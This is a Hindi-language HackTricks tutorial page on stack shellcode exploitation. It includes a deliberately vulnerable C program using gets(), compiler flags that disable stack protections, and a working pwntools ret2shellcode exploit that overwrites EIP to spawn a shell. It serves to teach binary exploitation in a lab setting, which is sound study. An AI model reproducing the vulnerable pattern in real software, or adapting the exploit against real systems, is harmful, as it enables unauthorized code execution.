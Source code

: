 # स्टैक शेलकोड

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **हमें** **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर** **फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github repos में PRs सबमिट करके।

</details>

## मूलभूत जानकारी

**स्टैक शेलकोड** एक तकनीक है जो **बाइनरी उत्पीड़न** में प्रयोग की जाती है जहां हमलावता एक शेलकोड को एक संकटपूर्ण कार्यक्रम के स्टैक में लिखता है और फिर **इंस्ट्रक्शन पॉइंटर (IP)** या **विस्तारित इंस्ट्रक्शन पॉइंटर (EIP)** को इस शेलकोड के स्थान पर पॉइंट करने के लिए संशोधित करता है, जिससे यह निषेधात्मक पहुंच या एक लक्षित सिस्टम पर विचित्र आदेशों को निष्पादित करने के लिए चलाया जाता है। यह एक क्लासिक विधि है जो अनधिकृत पहुंच प्राप्त करने या लक्षित सिस्टम पर अभिवादन आदेशों को निष्पादित करने के लिए प्रयोग की जाती है। यहां प्रक्रिया का विवरण है, जिसमें एक सरल सी उदाहरण और आप कैसे **pwntools** के साथ पायथन का उपयोग करके एक संबंधित शिकार को लिख सकते हैं।

### सी उदाहरण: एक संकटपूर्ण कार्यक्रम

चलो एक संकटपूर्ण सी कार्यक्रम का एक सरल उदाहरण के साथ शुरू करते हैं:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
यह प्रोग्राम `gets()` फ़ंक्शन का उपयोग करने के कारण एक बफर ओवरफ़्लो के लिए वंर्नरबल है।

### Compilation

इस प्रोग्राम को कंपाइल करने के लिए विभिन्न सुरक्षा सुरक्षा को अक्षम करते हुए (एक वंर्नरबल वातावरण का अनुकरण करने के लिए), आप निम्नलिखित कमांड का उपयोग कर सकते हैं:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: स्टैक सुरक्षा को अक्षम करता है।
* `-z execstack`: स्टैक को क्रियाशील बनाता है, जो स्टैक पर संग्रहीत शेलकोड को निष्पादित करने के लिए आवश्यक है।
* `-no-pie`: पोजीशन इंडिपेंडेंट एक्जीक्यूटेबल को अक्षम करता है, जिससे हमारे शेलकोड का स्थान जिसमें होगा उसकी स्मृति पता लगाना आसान हो जाता है।
* `-m32`: प्रोग्राम को 32-बिट एक्सीक्यूटेबल के रूप में कंपाइल करता है, अक्स्प्लॉइट डेवलपमेंट में सरलता के लिए अक्सर उपयोग किया जाता है।

### Pwntools का उपयोग करके Python Exploit

यहाँ एक उदाहरण है कि आप **pwntools** का उपयोग करके Python में एक एक्सप्लॉइट कैसे लिख सकते हैं जो एक **ret2shellcode** हमला करने के लिए है:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
यह स्क्रिप्ट एक **NOP स्लाइड**, **शेलकोड**, और फिर **EIP** को NOP स्लाइड पर पहुंचाने वाले पते के साथ ओवरराइट करता है, जिससे शेलकोड को निष्पादित किया जाता है।

**NOP स्लाइड** (`asm('nop')`) का उपयोग इसके सुनिश्चित करने के लिए किया जाता है कि निष्पादन हमारे शेलकोड में "स्लाइड" होगा चाहे वास्तविक पते कुछ भी हो। `p32()` तर्क को अपने बफर के प्रारंभ पते पर एक ऑफसेट के साथ समायोजित करें ताकि NOP स्लाइड में लैंड हो सके।

## सुरक्षा

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) को निष्क्रिय कर देना चाहिए ताकि पता सभी निष्पादनों के लिए स्थायी हो या फ़ंक्शन को कहां स्टोर किया जाएगा वह हमेशा समान नहीं होगा और आपको कुछ लीक की आवश्यकता होगी ताकि पता चले कि जीत फ़ंक्शन को कहां लोड किया गया है।
* [**स्टैक कैनारीज़**](../common-binary-protections-and-bypasses/stack-canaries/) भी निष्क्रिय किए जाने चाहिए अन्यथा कंप्रोमाइज़ हुआ EIP रिटर्न पता कभी भी अनुसरण नहीं किया जाएगा।
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) **स्टैक** सुरक्षा शेलकोड के निष्पादन को रोकेगा क्योंकि उस क्षेत्र को क्रियाशील नहीं किया जाएगा।

## अन्य उदाहरण और संदर्भ

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64बिट, ASLR के साथ स्टैक पते का लीक, शेलकोड लिखें और उस पर जाएं
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32 बिट, ASLR के साथ स्टैक लीक, शेलकोड लिखें और उस पर जाएं
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32 बिट, ASLR के साथ स्टैक लीक, निष्कर्षण के लिए तुलना करें कि निष्क्रिय करने के लिए कॉल को रोकने के लिए, एक मान के साथ चर को ओवरराइट करें और शेलकोड लिखें और उस पर जाएं
